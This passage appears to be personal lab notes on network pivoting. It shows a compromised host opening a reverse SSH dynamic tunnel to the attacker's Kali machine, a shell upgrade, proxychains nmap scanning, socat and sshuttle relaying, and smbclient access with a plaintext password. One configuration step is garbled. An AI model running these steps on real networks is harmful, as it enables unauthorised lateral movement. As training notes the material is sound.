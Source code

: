 On our Kali machine, we will use psql, passing 127.0.0.1 as the host (-h), 2345 as the port (-p), and using the database credentials of the postgres user (-U) we found earlier on CONFLUENCE01.

```
psql -h 127.0.0.1 -p 2345 -U postgres
```

### Remote Dynamic Port Forwarding
The remote dynamic port forwarding command is relatively simple, although (slightly confusingly) it uses the same -R option as classic remote port forwarding. The difference is that when we want to create a remote dynamic port forward, we pass only one socket: the socket we want to listen on the SSH server. We don't even need to specify an IP address; if we just pass a port, it will be bound to the loopback interface of the SSH server by default.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh -N -R 9998 kali@192.168.118.4
sudo ss -ntplu
```

then add `tail /etc/proxychains4.conf` to `/etc/proxychains4.conf`

can then run nmap like before
```
proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.50.64
```
### Sshuttle

 sshuttle1 is a tool that turns an SSH connection into something similar to a VPN by setting up local routes that force traffic through the SSH tunnel. However, it requires root privileges on the SSH client and Python3 on the SSH server, so it's not always the most lightweight option. In the appropriate scenario, however, it can be very useful.

first set up local port forwarding on server
```
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
```

then on kali machine tell sshuttle which routes to go through ssh tunnel
```
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```
now we an act as though we have access to new host
```
smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```

## Window SSH

### ssh.exe
Need ssh client > 7.6 for remote dynamic port forwarding
```
where ssh
ssh.exe -V
```
